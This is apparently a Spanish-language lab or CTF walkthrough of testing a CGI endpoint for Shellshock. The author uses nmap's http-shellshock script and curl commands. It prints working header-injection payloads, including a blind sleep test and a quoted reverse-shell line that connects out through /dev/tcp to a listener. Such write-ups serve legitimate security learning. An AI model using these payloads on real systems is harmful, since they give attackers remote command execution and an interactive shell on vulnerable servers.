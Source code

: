 `Test`
en la web nos indican que existe un script de nmap capaz de identificar esta vulnerabilidad y decirnos si es efectivamente vulnerable así que vamos a probarlo
![[Pasted image 20240622191752.png]]

```python
	*Test*

nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi

```

ahora solo debemos modificar un poco nuestro escaneo para que funcione en nuestra maquina
```python
	*Escaneo personalizado*

sudo proxychains nmap -sT -p 80 -Pn --script=http-shellshock --script-args uri=/cgi-bin/underworld --max-retries=10 --host-timeout=30m 10.3.2.6 2>/dev/null
```

efectivamente los `scripts` de nmap nos indican que la maquina es vulnerable a esta `CVE`
![[Pasted image 20240622194303.png]]

`Test curl`
vamos a seguir realizando las pruebas para identificar cual de las vulnerabilidades se están efectuando. para esto en la web nos indican unos comandos que podemos usar para determinar esto

![[Pasted image 20240622194632.png]]

```python
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```

`Identificando`
en este caso el primer comando no nos ha funcionado así que parece que no es vulnerable a `RCE` sin embargo probamos el segundo comando el cual nos ha dado resultado después de 5 segundos. ya que hemos definido un **sleep 5** esto nos indica que la vulnerabilidad que esta aconteciendo aquí es una `Blind`

```python

# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)

curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi

```
